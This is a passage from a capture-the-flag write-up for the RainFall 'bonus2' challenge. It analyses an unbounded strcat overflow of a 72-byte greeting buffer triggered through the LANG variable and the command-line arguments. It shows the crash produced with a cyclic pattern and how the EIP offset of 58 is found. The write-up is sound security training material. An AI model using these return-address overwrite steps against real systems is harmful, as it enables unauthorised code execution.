 * **In `greetuser()`**:
  * `greeting[72]`: 72-byte buffer
  * `strcat(greeting, username)`: **CRITICAL** - Concatenates without bounds checking
  * **Issue**: Greeting prefixes vary in length:
    - "Hello " = 6 bytes
    - "Hyvää päivää " = 13 bytes
    - "Goedemiddag! " = 13 bytes
  * If username is 72 bytes and prefix is 13 bytes, we write 85 bytes into a 72-byte buffer, overflowing into saved EBP and return address!

### Stack Layout

```
Low addresses
    |
    v
[greeting - 72 bytes] [saved ebp - 4 bytes] [return address - 4 bytes]
    ^
    |
High addresses
```

**Conclusion**: By controlling `LANG` and providing carefully crafted arguments, we can overflow the `greeting` buffer and overwrite the return address.

---

## Build the exploit

### 1) Determine EIP overwrite offset

Using a cyclic pattern to find the exact offset where we overwrite EIP:

```bash
# Generate pattern of 200 bytes
pattern: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

# Split at 40 bytes for argv[1] and argv[2]
argv[1]: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A
argv[2]: b3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

bonus2@RainFall:~$ LANG=fi ./bonus2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A b3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Hyvää päivää Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3
Segmentation fault (core dumped)
```

Using `msf-pattern_offset`:
```bash
EIP: 0x63413962
msf-pattern_offset -q 0x63413962
[*] Exact match at offset 58
```
